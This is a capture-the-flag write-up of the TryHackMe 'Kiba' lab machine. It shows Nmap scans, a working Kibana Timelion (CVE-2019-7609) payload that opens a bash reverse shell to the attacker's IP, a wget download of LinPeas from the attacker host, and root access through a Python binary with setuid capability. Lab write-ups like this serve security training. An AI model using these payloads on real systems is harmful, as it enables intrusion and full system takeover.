






# THM - Kiba

#### Ip: 10.10.145.195
#### Name: Kiba
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Kiba]
└─$ sudo nmap -p-  --min-rate 10000 10.10.145.195
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-25 09:53 CDT
Nmap scan report for 10.10.145.195
Host is up (0.13s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent

Nmap done: 1 IP address (1 host up) scanned in 8.09 seconds
```

Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/Kiba]
└─$ sudo nmap -sC -sV -T4 10.10.145.195 -p 22,80,5044,5601
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-25 09:54 CDT
Nmap scan report for 10.10.145.195
Host is up (0.13s latency).

PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9df8d157132481b6185d048ed2384f90 (RSA)
|   256 e1e67aa1a11cbe03d24e271b0d0aecb1 (ECDSA)
|_  256 2abae5c5fb51381745e7b154caa1a3fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Tue, 25 Jul 2023 14:54:41 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Tue, 25 Jul 2023 14:54:37 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Tue, 25 Jul 2023 14:54:38 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.93%I=7%D=7/25%Time=64BFE22E%P=aarch64-unknown-linux-gn
SF:u%r(GetRequest,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kiban
SF:a\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab
SF:54e3e6c\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnec
SF:tion:\x20close\r\nDate:\x20Tue,\x2025\x20Jul\x202023\x2014:54:37\x20GMT
SF:\r\n\r\n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-n
SF:ame:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\
SF:ncontent-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\
SF:x20no-cache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x
SF:20Tue,\x2025\x20Jul\x202023\x2014:54:38\x20GMT\r\n\r\n{\"statusCode\":4
SF:04,\"error\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20
SF:Bad\x20Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\n\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%
SF:r(SSLSessionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Term
SF:inalServerCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLS
SF:SessionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,
SF:1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/
SF:1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\
SF:x20Not\x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d
SF:04923283ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=
SF:utf-8\r\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnect
SF:ion:\x20close\r\nDate:\x20Tue,\x2025\x20Jul\x202023\x2014:54:41\x20GMT\
SF:r\n\r\n{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not
SF:\x20Found\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r
SF:\n")%r(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(LDAPBindReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOpti
SF:ons,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.11 seconds
```

Wow, lots of output there. Lets recap with:

```text
Port 22 - SSH
Port 80 - HTTP running Apache 2.4.18
Port 5044 - lxi-evntsvc?
Port 5601 - esmagent? ( But actually appears to be running Kibana)
```

Lets check out 5601 first.

Navigating to the site on 5601 we see Nmap was correct and we are forwarded to `/app/kibana`



Browsing around the app for a bit I see there is something called Timelion installed, and the page has what almost appears to be a terminal. 



Doing some googling I find this GitHub outlining a vulnerability:

https://github.com/mpgn/CVE-2019-7609

```text
CVE-2019-7609

    Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.
<SNIP>
Exploit

    Open Kibana
    Past one of the following payload into the Timelion visualizer
    Click run
    On the left panel click on Canvas
    Your reverse shell should pop ! :)

```

Interesting! This GitHub also includes a couple payloads to try out, lets give it a whirl:

### Exploitation

```text
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.6.61.45/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

Following the instructions above, we easily catch a reverse shell as user kiba:

```text
┌──(ryan㉿kali)-[~/THM/Kiba]
└─$ nc -lvnp 443                                          
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.145.195] 51366
bash: cannot set terminal process group (937): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ whoami 
whoami
kiba
kiba@ubuntu:/home/kiba/kibana/bin$ hostname
hostname
ubuntu
```

From here we can go ahead and grab the user.txt flag:



### Privilege Escalation

Setting up a Python http.server on my attacking machine I can transfer over LinPeas to the target to help with privilege escalation:

```text
kiba@ubuntu:/tmp$ wget http://10.6.61.45/linpeas.sh
--2023-07-25 08:16:08--  http://10.6.61.45/linpeas.sh
Connecting to 10.6.61.45:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 758.76K  1.06MB/s    in 0.7s    

2023-07-25 08:16:09 (1.06 MB/s) - 'linpeas.sh' saved [776967/776967]

kiba@ubuntu:/tmp$ chmod +x linpeas.sh
kiba@ubuntu:/tmp$ ./linpeas.sh
```

Cool, LinPeas finds Python capabilities.



Which also reminds me of a huge hint that was posted on HTTP/port 80:



This should be really easy for us to exploit:

```text
kiba@ubuntu:/tmp$ /home/kiba/.hackmeplease/python3
Python 3.5.2 (default, Oct  8 2019, 13:06:37) 
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.getuid()
1000
>>> os.setuid(0)
>>> os.getuid()
0
>>> os.system("/bin/bash")
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/tmp# whoami
root
root@ubuntu:/tmp# id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

Lets grab that root.txt flag now:



And that's that! Thanks for following along!

-Ryan

-----------------------------------------------------------------------------

